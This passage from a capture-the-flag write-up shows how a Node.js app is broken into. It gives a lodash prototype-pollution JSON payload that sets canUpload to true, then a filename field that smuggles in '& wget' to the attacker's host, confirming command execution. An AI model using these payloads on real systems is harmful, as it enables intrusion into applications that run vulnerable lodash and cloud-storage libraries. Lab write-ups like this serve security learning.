 ```js
```

Now we have a good understanding of what the app does. Interestingly we could upload files if we were the admin user, however the admin password is randomly generated. We could also upload if the `felamos` user had the `canUpload` parameter set to `true`. 

## User

At this point we started to search on google for vulnerabilites that would help us and found out about [prototype pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution). So we investigated further and found out that there is exactly [this vulerability](https://github.com/kimmobrunfeldt/lodash-merge-pollution-example) in older lodash versions.

In the index.js we can see inside the `app.put` function that our messages get merged via lodash. So we craft a payload like this to pollute the prototype that `canUpload` is `true` for every object:

![canupload.png](canupload.png)

```
{"auth":{"name":"felamos","password":"Winter2021"},"message":{"__proto__":{"canUpload":true}}}
```

Now we can make use of the `app.upload` function as user `felamos` aswell. After looking for google-cloud-storage upload vulnerabilities we quickly found [this PoC](https://snyk.io/vuln/SNYK-JS-GOOGLECLOUDSTORAGECOMMANDS-1050431) which shows our exact scenario. We confirm this by trying to pull a file from our host system like this:

```
{"auth":{"name":"felamos","password":"Winter2021"},"filename":"& wget http://10.10.14.53:1234/test"}
```

After seeing the request on our local http server we know that we have code execution.
